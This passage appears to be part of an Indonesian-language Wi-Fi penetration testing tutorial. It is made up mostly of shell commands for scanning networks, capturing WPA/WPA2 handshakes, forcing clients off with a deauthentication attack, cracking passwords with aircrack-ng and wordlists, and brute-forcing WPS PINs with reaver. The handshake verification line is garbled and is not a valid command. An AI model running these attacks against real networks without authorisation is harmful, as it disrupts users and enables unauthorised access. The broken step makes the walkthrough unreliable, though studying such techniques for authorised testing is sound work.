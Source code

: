 ### 2. Analisis Jaringan Nirkabel

#### 2.1 Pemindaian Jaringan Wi-Fi
```bash
# Gunakan airodump-ng untuk memindai jaringan
sudo airodump-ng wlan0mon

# Simpan hasil capture ke file
sudo airodump-ng -w capture --output-format pcap wlan0mon
```

#### 2.2 Analisis Paket dengan Wireshark
```bash
# Buka file capture dengan Wireshark
wireshark capture-01.cap &

# Filter untuk melihat probe requests
wlan.fc.type_subtype == 0x04

# Filter untuk melihat handshake WPA/WPA2
eapol
```

### 3. Pengujian Keamanan Wi-Fi

#### 3.1 Mengumpulkan Handshake WPA/WPA2
```bash
# Targetkan jaringan tertentu
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Di terminal lain, lakukan deauthentication attack
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c FF:FF:FF:FF:FF:FF wlan0mon

# Verifikasi handshake
your cap file "handshake-01.cap"
```

#### 3.2 Crack Password dengan Aircrack-ng
```bash
# Gunakan wordlist
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 handshake-01.cap

# Atau gunakan crunch untuk membuat wordlist
crunch 8 12 0123456789 -o wordlist.txt
```

#### 3.3 Uji Kerentanan WPS (Wi-Fi Protected Setup)
```bash
# Deteksi WPS aktif
sudo wash -i wlan0mon

# Crack PIN WPS dengan Reaver
sudo reaver -i wlan0mon -b 00:11:22:33:44:55 -vv
```
